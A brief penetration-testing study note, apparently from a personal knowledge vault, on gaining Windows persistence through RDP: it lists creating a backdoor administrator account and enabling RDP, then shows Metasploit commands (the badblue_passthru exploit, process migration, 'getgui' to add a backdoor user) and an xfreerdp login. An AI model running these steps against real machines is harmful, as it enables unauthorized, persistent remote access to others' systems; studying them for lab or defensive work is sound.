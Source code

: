 ```yaml
---
up: "[[Windows Persistence]]"
---
```


# Persistence via RDP

1. Create a backdoor account
2. Add it to administrator group
3. Enable RDP on the target

## Demonstration

```bash
> use exploit/windows/http/badblue_passthru
m> pgrep explorer
m> migrate <pid>
# create backdoor user
m> run getgui -e -u <username> -p <password>
# connect to it via rdp
xfreerdp /u:<username> /p:<password> /v:<ip>
```
